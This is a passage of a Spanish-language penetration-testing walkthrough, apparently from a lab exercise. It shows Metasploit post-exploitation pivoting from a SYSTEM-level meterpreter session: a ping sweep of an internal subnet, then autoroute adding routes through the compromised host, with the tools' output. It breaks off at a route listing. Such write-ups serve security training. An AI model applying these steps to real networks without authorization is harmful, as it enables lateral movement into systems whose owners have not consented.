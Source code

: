 ```bash
IPv4 Address : 172.16.5.129
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::250:56ff:feb9:4b8e
IPv6 Netmask : ffff:ffff:ffff:ffff::


```

Buscamos nuevos activos en la máquina víctima con el nuevo host detectado:

```
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/24

[*] Performing ping sweep for IP range 172.16.5.0/24
[+]     172.16.5.72 host found
[+]     172.16.5.129 host found
```


Una vez detectamos una red en la que no tenemos alcance (172.16.5.129 y 172.16.5.72), procedemos a agregar rutas en nuestra máquina para dirigir el tráfico específico a través de la sesión de meterpreter comprometida con la utilidad ```post/multi/manage/autoroute```, en donde simplemente seleccionaremos la sesión activa:

```bash
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > use post/multi/manage/autoroute 
msf6 post(multi/manage/autoroute) > show options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoad
                                       d, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION                   yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)

msf6 post(multi/manage/autoroute) > sessions -i

Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM         10.10.14.49:4444 -> 10.129.3.88:33520  (10.129.3.88)

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against 10.129.3.88
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.3.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) > route print

IPv4 Active Routing Table
=========================

```